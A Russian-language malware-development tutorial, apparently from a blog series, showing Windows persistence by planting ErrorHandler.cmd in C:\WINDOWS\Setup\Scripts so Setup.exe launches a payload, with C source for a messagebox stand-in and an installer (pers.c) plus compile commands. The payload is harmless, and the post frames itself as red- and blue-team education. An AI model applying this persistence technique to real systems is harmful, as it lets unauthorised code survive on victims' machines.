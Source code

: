\newpage
\subsection{88. разработка вредоносного ПО: закрепление (persistence) - часть 22. Windows Setup. Простой пример на C++.}

الرَّحِيمِ الرَّحْمَٰنِ للَّهِ بِسْمِ 

![pers](./images/104/2023-07-17_00-13.png){width="80%"}    

Этот пост основан на моем собственном исследовании одной из интересных техник закрепления вредоносного ПО: через сценарий Windows Setup.     

### сценарий установки

`C:\WINDOWS\system32\oobe\Setup.exe` - это исполняемый файл операционной системы Windows. Директория `oobe` означает *"Out Of Box Experience"* - процесс настройки Windows при первом запуске, включающий создание учетной записи пользователя, настройку параметров, выбор настроек по умолчанию и т. д.     

![pers](./images/104/2023-07-16_22-58.png){width="80%"}    

Оказывается, если разместить полезную нагрузку в `c:\WINDOWS\Setup\Scripts\ErrorHandler.cmd`, `c:\WINDOWS\system32\oobe\Setup.exe` будет загружать её при возникновении ошибки.     

### практический пример

Рассмотрим практический пример. Прежде всего, как обычно, создаем "вредоносное" приложение. Для простоты, как обычно, это `meow-meow` messagebox "вредоносное" приложение (`hack.c`):  

```cpp
/*
hack.cpp
evil app for windows persistence
author: @cocomelonc
https://cocomelonc.github.io/malware/2023/07/16/malware-pers-22.html
*/
#include <windows.h>
#pragma comment (lib, "user32.lib")

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR 
lpCmdLine, int nCmdShow) {
  MessageBox(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return 0;
}
```

А затем просто создаем файл `ErrorHandler.cmd` для закрепления:      

```powershell
@echo off
"C:\Users\user\Desktop\research\2023-07-16-malware-pers-22\hack.exe"
```

Как можно видеть, логика довольно простая.    

### демонстрация

Давайте посмотрим, как все работает на практике. Прежде всего, компилируем наше "вредоносное" ПО:      

```bash
x86_64-w64-mingw32-g++ -O2 hack.c -o hack.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections \
-Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

![pers](./images/104/2023-07-16_23-47.png){width="80%"}    

Затем перемещаем наш `ErrorHandler.cmd` в `C:\Windows\Setup\Scripts\`:     

![pers](./images/104/2023-07-17_00-10.png){width="80%"}    

Ок, следующий шаг - нужно запустить `Setup.exe` с ошибкой. Самый простой способ - выполнить `Setup.exe` без аргументов:     

```powershell
.\Setup.exe
```

![pers](./images/104/2023-07-17_00-13_1.png){width="80%"}    

Если открыть `Process Hacker` и посмотреть свойства `hack.exe`:     

![pers](./images/104/2023-07-17_01-52.png){width="80%"}    

Можно заметить, что его родительский процесс - `cmd.exe (7264)`,       

![pers](./images/104/2023-07-17_01-53.png){width="80%"}    

А его родительский процесс, в свою очередь, - `Setup.exe (4876)`:     

![pers](./images/104/2023-07-17_01-53_1.png){width="80%"}    

Как можно видеть, логика закрепления работает идеально! =^..^=         

### практический пример 2. скрипт закрепления

Для полноты эксперимента я создал файл `pers.c`:     

```cpp
/*
pers.c
windows persistence via Windows Setup
author: @cocomelonc
https://cocomelonc.github.io/malware/2023/07/16/malware-pers-22.html
*/
#include <windows.h>
#include <stdio.h>

int main(int argc, char* argv[]) {
  // create the directory if not exist
  if (!CreateDirectory("C:\\WINDOWS\\Setup\\Scripts", NULL)) {
    DWORD error = GetLastError();
    if (error != ERROR_ALREADY_EXISTS) {
      printf("failed to create directory. error: %lu\n", error);
      return -1;
    }
  }

  // open the file for writing
  HANDLE hFile = CreateFile("C:\\WINDOWS\\Setup\\Scripts\\ErrorHandler.cmd", 
  GENERIC_WRITE, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
  if (hFile == INVALID_HANDLE_VALUE) {
    printf("failed to create ErrorHandler file. error: %lu\n", GetLastError());
    return -1;
  }

  // content to write to the file
  const char* data = "@echo 
  off\n\"C:\\Users\\user\\Desktop\\research\\2023-07-16-malware-pers-22\\
  hack.exe\"";

  // write the content to the file
  DWORD bytesWritten;
  if (!WriteFile(hFile, data, strlen(data), &bytesWritten, NULL)) {
    printf("failed to write to ErrorHandler file. error: %lu\n", 
    GetLastError());
  }

  // close the file handle
  CloseHandle(hFile);
  return 0;
}
```

Обратите внимание, что эту программу необходимо запускать с правами администратора, поскольку она пытается создать каталог и файл в `C:\WINDOWS`, что требует прав администратора.

![pers](./images/104/2023-07-17_02-12.png){width="80%"}    

### демонстрация 2

Давайте посмотрим, как все работает на практике. Компилируем наш скрипт закрепления:      

```bash
x86_64-w64-mingw32-g++ -O2 pers.c -o pers.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections \
-Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

![pers](./images/104/2023-07-17_02-07.png){width="80%"}    

Затем просто запускаем его с административными привилегиями на машине жертвы:     

```powershell
.\pers.exe
```

![pers](./images/104/2023-07-17_02-13.png){width="80%"}    

В моем случае, перед запуском я удалил эту папку:    

![pers](./images/104/2023-07-17_02-10.png){width="80%"}    

Запускаем `Setup.exe` снова:    

![pers](./images/104/2023-07-17_02-15.png){width="80%"}    

![pers](./images/104/2023-07-17_02-15_1.png){width="80%"}    

Идеально! =^..^=    

### заключение

Это обычное имя файла установочного пакета. В данном случае оно является частью процесса установки и инициализации Windows. Файл используется во время установки операционной системы, а также при добавлении или изменении компонентов.     

Как видно, однако, следует отметить, что, хотя это легитимная часть операционной системы Windows, вредоносные программы иногда могут называть себя `Setup.exe`, чтобы избежать обнаружения.      

В папке `c:\WINDOWS\system32\oobe\` также находятся другие файлы:      

![pers](./images/104/2023-07-16_22-59.png){width="80%"}    

Я их не проверял.     

Этот трюк ранее исследовался [hexacorn](https://www.hexacorn.com/blog/2022/01/16/beyond-good-ol-run-key-part-135/):

![pers](./images/104/2023-07-17_02-26.png){width="80%"}    

Я просто показываю "грязный" PoC-код на C: `pers.c`.     

Надеюсь, этот пост повысит осведомленность синих команд об этой интересной технике и добавит оружие в арсенал красных команд.   

[Malware persistence: part 1](https://cocomelonc.github.io/tutorial/2022/04/20/malware-pers-1.html)       
[https://www.hexacorn.com/blog/2022/01/16/beyond-good-ol-run-key-part-135/](https://www.hexacorn.com/blog/2022/01/16/beyond-good-ol-run-key-part-135/)      
[https://twitter.com/Hexacorn/status/1482484486994640896](https://twitter.com/Hexacorn/status/1482484486994640896)     
[исходный код на github](https://github.com/cocomelonc/meow/tree/master/2023-07-16-malware-pers-22)     
